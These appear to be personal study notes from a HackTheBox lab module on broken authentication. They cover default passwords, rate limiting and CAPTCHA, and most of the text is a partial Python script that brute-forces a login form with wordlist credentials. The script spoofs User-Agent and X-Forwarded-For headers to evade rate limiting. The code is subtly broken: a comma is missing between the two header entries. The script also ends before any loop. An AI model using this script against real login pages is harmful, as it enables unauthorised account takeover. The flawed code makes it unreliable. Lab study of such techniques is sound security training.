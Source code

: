 ## Default Credentials
#### [Default Passwords | CIRT.net](https://www.cirt.net/passwords?criteria=cisco)
## Weak Bruteforce Protections
### CAPTCHA
### Rate Limiting
#### [rate_limit_check.py](https://academy.hackthebox.com/storage/modules/80/scripts/rate_limit_check_py.txt)
The relevant lines are 10 and 13, where we configure a wait time and a lock message, and line 41, where we do the actual check.
### Insufficient Protections
#### Methods to bypass protections:
- Modify the `User-Agent` header
- Modify IP address in `X-Forwarded-For` header
#### basic_bruteforce.py (alter headers portion)
```Python
import sys
import requests
import os.path

# define target url, change as needed
url = "http://brokenauthentication.hackthebox.eu/login.php"

# define a fake headers to present ourself as Chromium browser, change if needed
headers = {
	"User-Agent": "Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/88.0.4324.96 Safari/537.36"
	"X-Forwarded-For": "1.2.3.4"
}

# define the string expected if valid account has been found. our basic PHP example replies with Welcome in case of success

valid = "Welcome"

"""
wordlist is expected as CSV with field like: Vendor,User,Password,Comment
for this test we are using SecLists' Passwords/Default-Credentials/default-passwords.csv
change this function if your wordlist has a different format
"""
def unpack(fline):
    # get user
    userid = fline.split(",")[1]

    # if pass could contain a , we should need to handle this in another way
    passwd = fline.split(",")[2]

    return userid, passwd

"""
our PHP example accepts requests via POST, and requires parameters as userid and passwd
"""
def do_req(url, userid, passwd, headers):
    data = {"userid": userid, "passwd": passwd, "submit": "submit"}
    res = requests.post(url, headers=headers, data=data)

    return res.text

```